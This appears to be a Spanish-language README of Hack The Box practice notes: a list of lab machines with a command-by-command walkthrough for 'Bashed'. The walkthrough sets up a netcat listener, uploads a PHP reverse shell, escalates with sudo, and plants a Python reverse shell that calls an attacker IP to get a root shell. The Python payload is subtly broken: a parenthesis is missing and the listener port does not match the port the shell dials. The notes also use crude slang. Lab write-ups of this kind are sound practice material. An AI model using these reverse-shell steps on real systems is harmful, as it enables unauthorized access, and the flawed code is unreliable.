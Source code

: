 - Lame $X$ 
- Jerry $X$ 
- Blue $X$
- Bashed $pendiente por algun chupaverga. PASOS PARA COMPLETARLA OTRO DIA:$
```bash
#entrar a la ip:80/dev
#en tu terminal kali
nc -lvnp 1234 (el puerto q quieras)
#en la terminal /uploads
wget php-reverse-shell.php #ponele tu ip y puerto = nc
#si sale todo bien carga la web en la url /uploads/reverse.php
#ahi ya entraste, despues
python -c 'import pty;pty.spawn("/bin/bash")'
sudo -u scriptmanager bash
cd scripts
#aca viene el quilombito
#archivo .py y .test, el .py modifica al .test, lo que se hace es modificar el .py para que nos abra otra shell pero como root :) 
#la teoria:
vi test.py
#en el archivo escribir
python -c 'import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.46",5432)
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])'
#en kali
nc -lvnp 9999
#target
date
#y listorti :D
```
write up: https://www.youtube.com/watch?v=2DqdPcbYcy8 
- Beep
- Shocker
- Nibbles
- Optimum
- Granny
- Devel
- Legacy
- Grandpa
- Bastion
- Netmon
- Irked
- Popcorn
- OpenAdmin
- Bank
- Postman
- Valentine
- Forest
- Fuse
- Magic
- Arctic
- Blunder
- Ypuffy
- Curling
- Bounty
- Chaos
- Monteverde
- SolidState
- Buff
- Knife
- Oopsie
- Poison
- Blackfield
- TartarSauce
- Blocky
- SneakyMailer
- Nineveh
- Heist
- Traceback
- Sauna
- Active
- Bitlab
- Buff
- Friendzone
- Traverxec
- Mango
- Fortune